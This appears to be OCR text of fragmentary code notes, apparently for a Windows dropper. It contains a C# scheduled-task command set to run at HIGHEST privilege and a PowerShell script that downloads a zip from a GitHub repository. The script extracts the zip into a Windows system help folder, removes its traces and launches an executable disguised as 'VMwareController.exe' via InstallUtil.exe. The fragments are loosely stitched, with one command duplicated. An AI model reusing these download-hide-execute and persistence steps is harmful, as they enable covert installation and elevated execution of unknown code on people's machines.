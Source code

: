 "C:\Users\Administrator\Downloads\grouse-main\grouse-main\DesktopGoose v0.31\GooseDesktop.exe"

string createCmd = $"/Create /TN \"ShowMyApp\" /TR \"{exePath}\" " +
                   $"/SC ONCE /ST {startTime} /RL HIGHEST /F /RU \"{username}\"";
string createCmd = $"/Create /TN \"ShowMyApp\" /TR \"\\\"{exePath}\\\"\" /SC ONCE /ST {startTime} /RL HIGHEST /F /RU \"{username}\"";
C:\Windows\Help\Windows\IndexStore\en-US


# Set variables
$url = "https://github.com/burner-afk/Controller/archive/refs/heads/main.zip"      
$zipPath = "C:\temp\Controller-main.zip"
$extractPath = "C:\Windows\Help\Windows\IndexStore\en-US"



# Create directory for download and extraction
New-Item -ItemType Directory -Force -Path (Split-Path $zipPath)


# Download the ZIP file
Invoke-WebRequest -Uri $url -OutFile $zipPath

# Extract the ZIP file
Add-Type -AssemblyName System.IO.Compression.FileSystem
[System.IO.Compression.ZipFile]::ExtractToDirectory($zipPath, $extractPath)

Remove-Item "C:\temp" -Recurse -Force

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe "C:\Windows\Help\Windows\IndexStore\en-US\Controller-main\bin\Debug\VMwareController.exe"
